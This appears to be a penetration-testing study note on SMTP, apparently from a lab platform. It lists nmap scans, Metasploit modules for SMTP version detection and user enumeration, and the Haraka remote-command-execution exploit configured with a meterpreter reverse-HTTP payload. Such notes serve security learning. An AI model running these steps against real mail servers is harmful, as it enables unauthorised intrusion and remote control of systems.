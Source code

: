 # SMTP 

- port:25
- `nmap -sS -sV <ip>`
- `nmap -sV -script banner 192.80.153.3` - to get host @<>.<>

## Metasploit modules

- auxiliary/scanner/smtp/smtp_version
- auxiliary/scanner/smtp/smtp_enum : identify user accounts on target system
- exploit/linux/smtp/haraka (haraka < v2.8.9 is vulnerable)
	- set SRVPORT 9898
	- set email_to root@attackdefense.test
	- set payload linux/x64/meterpreter_reverse_http
	- check

## References

1. Haraka (https://haraka.github.io/)
2. Metasploit Module (https://www.rapid7.com/db/modules/exploit/linux/smtp/haraka)
3. Haraka < 2.8.9 - Remote Command Execution (https://www.exploit-db.com/exploits/41162)